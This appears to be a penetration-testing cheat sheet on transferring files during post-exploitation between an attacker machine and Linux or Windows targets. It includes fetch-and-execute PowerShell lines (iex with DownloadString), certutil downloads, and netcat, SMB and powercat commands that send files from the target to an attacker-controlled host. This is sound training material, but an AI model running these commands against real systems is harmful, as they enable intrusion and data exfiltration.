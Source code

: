 ```yaml
---
title: Transfering Files
category: Post Exploitation
order: 7
---
```


In this section I’m going to enumerate difference methods to transfer files such us exploits or outputs of some scripts from our attacker machine to the target and viceversa.

In order to perform our work we have the need of transfer some files and this post collects some of this methods. Let’s see, these are some possibilities of environment that we can find during our audits.

# Linux 📤 to Linux 📥

## HTTP

First we need to start our **server** with python:

```bash
python3 -m http.server port
python -m SimpleHTTPServer port
php -S 0.0.0.0:port
ruby -run -e httpd . -p port
busybox httpd -f -p port
```

And download our files with Linux basics on the **target**:

```bash
wget http://ip-addr:port/file.name
curl http://ip-addr:port/file.name -o file.name
axel -a -n 20 -o file.name https://ip-addr:port/filen.name

#Freebsd
fetch -o file.name -q -R http://ip-addr:port/file.name
```

## Netcat / Socat

There are more ways with different protocols or programs to transfer our files:

```bash
nc -lp port > file.name
sudo socat TCP4-LISTEN:port,fork file:file.name
```

And on the target:

```bash
nc -w 3 ip-addr port < file.name
sudo socat TCP4:ip-addr:port file:file.name,create
```

## FTP (File Transfer Protocol)

First we need to start our ftp server, in this case I will use the Python module **pyftpdlib**, that allows you to set up our ftp server very quickly. To install you run the following command:

```bash
sudo apt-get install python-pyftpdlib
```

And start the **server**:

```bash
python -m pyftpdlib -p 21
```

Finally you can download the file on the **target** with:

```bash
wget ftp://ip-addr/file.name [--ftp-user=user] [--ftp-password=password]
axel -a -n 20 -o file.name ftp://ip-addr:port/filen.name
```

## Base64 Encoding

This is not the best solution beause you will need to Copy & Paste the output, and if you need to transfer a big file could be so tedious. Btw this are the commands:

```bash
base64 file.name
```

Copy the result and paste on your machine inside some quotes:

```bash
base64 -d "ZmxhZ3tINGNrMW5nTjB0ZXN9Cg==" > file.name
```

# Linux 📤 to Windows 📥

## HTTP

First we need to start our **server** with python:

```bash
python3 -m http.server port
python -m SimpleHTTPServer port
```

And download our files with **Windows** basics on the **target**:

### Via CMD:

```bash
certutil -urlcache -f "http://ip-addr:port/file.name" file.name
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file.name', 'file.name')
```

### Via Powershell:

```bash
(New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file.name', 'file.name')
```

### Import Powershell Script without storing in memory

```
iex (New-Object System.Net.Webclient).DownloadString('http://ip-addr:port/file.ps1')
iex (iwr 'http://ip-addr:port/file.ps1')
```

## SMB

Server Message Block (SMB) is a network protocol that allows us share files, printers, etc, between nodes that are Microsoft Windows.

To start a **smb server** you need to invoke smbserver.py class from [impacket](https://github.com/SecureAuthCorp/impacket).

```bash
python smbserver.py NAME FOLDER
```

And simply copy the file in the share volume to the target:

```bash
copy \\ip-addr\NAME\file.name .\file.name
```

Maybe there are some others ways to transfer files between Linux and Windows, but with these methods is more than enough to do our job!

# Windows 📤 to Linux 📥

This section will be similar to previous one.

## HTTP

If the target have python installed you can start the **server** in the same way:

_(Be careful on windows the python script in python2.7 is `http.server` and not `SimpleHTTPServer`)_

```bash
python -m http.server
```

And download our files with Linux basics on the **target**:

```bash
wget http://ip-addr:port/file.name
curl http://ip-addr:port/file.name -o file.name
```

## SMB

In that case the **smb server** will also start on the attacker's machine (Linux). To start a **smb server** you need to invoke smbserver.py class from [impacket](https://github.com/SecureAuthCorp/impacket):

```bash
python smbserver.py NAME FOLDER
```

But the differece will be the order of copy arguments:

```bash
copy .\file.name \\ip-addr\NAME\file.name
```

## Powercat

Powercat is essentially the powershell version of netcat. First need to install in yout kali Machine to download the script:

> **Installation**: sudo apt install powercat

Then you will find the script in the following directory:

* `/usr/share/windows-resources/powercat/powercat.ps1`

Onced transfered the script and imported the module, start the listener on the kali

```
nc -lp port > file.name
```

And execute the following command to send the desired file.

```
powercat -c ip-addr -p port -i file.name
```

# References:

* [https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/](https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/)
* [https://guide.offsecnewbie.com/transferring-files](https://guide.offsecnewbie.com/transferring-files)
* [https://medium.com/@PenTest\_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65](https://medium.com/@PenTest\_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
